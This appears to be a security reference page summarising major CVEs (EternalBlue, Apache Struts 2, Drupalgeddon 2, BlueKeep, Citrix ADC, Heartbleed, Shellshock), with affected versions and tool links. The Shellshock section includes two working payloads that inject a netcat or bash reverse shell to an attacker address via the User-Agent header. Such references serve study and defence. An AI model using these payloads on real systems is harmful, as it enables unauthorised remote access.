 # Common Vulnerabilities and Exposures

> A CVE (Common Vulnerabilities and Exposures) is a unique identifier assigned to a publicly known cybersecurity vulnerability. CVEs help standardize the naming and tracking of vulnerabilities, making it easier for organizations, security professionals, and software vendors to share information and manage risks associated with these vulnerabilities. Each CVE entry includes a brief description of the vulnerability, its potential impact, and details about affected software or systems.

## Summary

* [Tools](#tools)
* [Big CVEs in the last 15 years](#big-cves-in-the-last-15-years)
    * [CVE-2017-0144 - EternalBlue](#cve-2017-0144---eternalblue)
    * [CVE-2017-5638 - Apache Struts 2](#cve-2017-5638---apache-struts-2)
    * [CVE-2018-7600 - Drupalgeddon 2](#cve-2018-7600---drupalgeddon-2)
    * [CVE-2019-0708 - BlueKeep](#cve-2019-0708---bluekeep)
    * [CVE-2019-19781 - Citrix ADC Netscaler](#cve-2019-19781---citrix-adc-netscaler)
    * [CVE-2014-0160 - Heartbleed](#cve-2014-0160---heartbleed)
    * [CVE-2014-6271 - Shellshock](#cve-2014-6271---shellshock)
* [References](#references)

## Tools

* [Trickest CVE Repository - Automated collection of CVEs and PoC's](https://github.com/trickest/cve)
* [Nuclei Templates - Community curated list of templates for the nuclei engine to find security vulnerabilities in applications](https://github.com/projectdiscovery/nuclei-templates)
* [Metasploit Framework](https://github.com/rapid7/metasploit-framework)
* [CVE Details - The ultimate security vulnerability datasource](https://www.cvedetails.com)

## Big CVEs in the last 15 years

### CVE-2017-0144 - EternalBlue

EternalBlue exploits a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol. The vulnerability exists because the SMB version 1 (SMBv1) server in various versions of Microsoft Windows mishandles specially crafted packets from remote attackers, allowing them to execute arbitrary code on the target computer.

Afftected systems:

* Windows Vista SP2
* Windows Server 2008 SP2 and R2 SP1
* Windows 7 SP1
* Windows 8.1
* Windows Server 2012 Gold and R2
* Windows RT 8.1
* Windows 10 Gold, 1511, and 1607
* Windows Server 2016

### CVE-2017-5638 - Apache Struts 2

On March 6th, a new remote code execution (RCE) vulnerability in Apache Struts 2 was made public. This recent vulnerability, CVE-2017-5638, allows a remote attacker to inject operating system commands into a web application through the “Content-Type” header.

### CVE-2018-7600 - Drupalgeddon 2

A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.

### CVE-2019-0708 - BlueKeep

A remote code execution vulnerability exists in Remote Desktop Services – formerly known as Terminal Services – when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests. This vulnerability is pre-authentication and requires no user interaction. An attacker who successfully exploited this vulnerability could execute arbitrary code on the target system. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights.

### CVE-2019-19781 - Citrix ADC Netscaler

A remote code execution vulnerability in Citrix Application Delivery Controller (ADC) formerly known as NetScaler ADC and Citrix Gateway formerly known as NetScaler Gateway that, if exploited, could allow an unauthenticated attacker to perform arbitrary code execution.

Affected products:

* Citrix ADC and Citrix Gateway version 13.0 all supported builds
* Citrix ADC and NetScaler Gateway version 12.1 all supported builds
* Citrix ADC and NetScaler Gateway version 12.0 all supported builds
* Citrix ADC and NetScaler Gateway version 11.1 all supported builds
* Citrix NetScaler ADC and NetScaler Gateway version 10.5 all supported builds

### CVE-2014-0160 - Heartbleed

The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet. SSL/TLS provides communication security and privacy over the Internet for applications such as web, email, instant messaging (IM) and some virtual private networks (VPNs).

### CVE-2014-6271 - Shellshock

Shellshock, also known as Bashdoor is a family of security bug in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

```powershell
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 10.0.0.2 4444 -e /bin/sh\r\n"
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.2/4444 0>&1" "https://10.0.0.1/cgi-bin/admin.cgi" 
```

## References

* [Heartbleed - Official website](http://heartbleed.com)
* [Shellshock - Wikipedia](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
* [Imperva Apache Struts analysis](https://www.imperva.com/blog/2017/03/cve-2017-5638-new-remote-code-execution-rce-vulnerability-in-apache-struts-2/)
* [EternalBlue - Wikipedia](https://en.wikipedia.org/wiki/EternalBlue)
* [BlueKeep - Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708)
